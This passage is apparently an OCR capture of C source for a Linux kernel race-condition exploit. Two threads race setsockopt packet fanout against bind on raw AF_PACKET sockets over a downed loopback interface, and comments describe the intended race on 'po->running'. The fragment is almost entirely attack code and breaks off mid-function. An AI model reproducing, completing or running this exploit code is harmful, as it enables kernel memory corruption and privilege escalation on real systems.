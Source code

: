 #define IS_ERR(c, s) { if (c) perror(s); }

struct sockaddr_ll {
    unsigned short  sll_family;
    short       sll_protocol; // big endian
    int     sll_ifindex;
    unsigned short  sll_hatype;
    unsigned char   sll_pkttype;
    unsigned char   sll_halen;
    unsigned char   sll_addr[8];
};

static int fd;
static struct ifreq ifr;
static struct sockaddr_ll addr;

void *task1(void *unused)
{   
    int fanout_val = 0x3;

    // need race: check on po->running
    // also must be 1st or link wont register
    int err = setsockopt(fd, 0x107, 18, &fanout_val, sizeof(fanout_val));
    // IS_ERR(err == -1, "setsockopt"); 
}

void *task2(void *unused)
{
    int err = bind(fd, (struct sockaddr *)&addr, sizeof(addr));
    // IS_ERR(err == -1, "bind");
}

void loop_race()
{
    int err, index;

    while(1) {
        fd = socket(AF_PACKET, SOCK_RAW, PF_PACKET);
        IS_ERR(fd == -1, "socket");

        strcpy((char *)&ifr.ifr_name, "lo");
        err = ioctl(fd, SIOCGIFINDEX, &ifr);
        IS_ERR(err == -1, "ioctl SIOCGIFINDEX");
        index = ifr.ifr_ifindex;

        err = ioctl(fd, SIOCGIFFLAGS, &ifr);
        IS_ERR(err == -1, "ioctl SIOCGIFFLAGS");

        ifr.ifr_flags &= ~(short)IFF_UP;
        err = ioctl(fd, SIOCSIFFLAGS, &ifr);
        IS_ERR(err == -1, "ioctl SIOCSIFFLAGS");

        addr.sll_family = AF_PACKET;
        addr.sll_protocol = 0x0; // need something different to rehook && 0 to skip register_prot_hook
        addr.sll_ifindex = index;
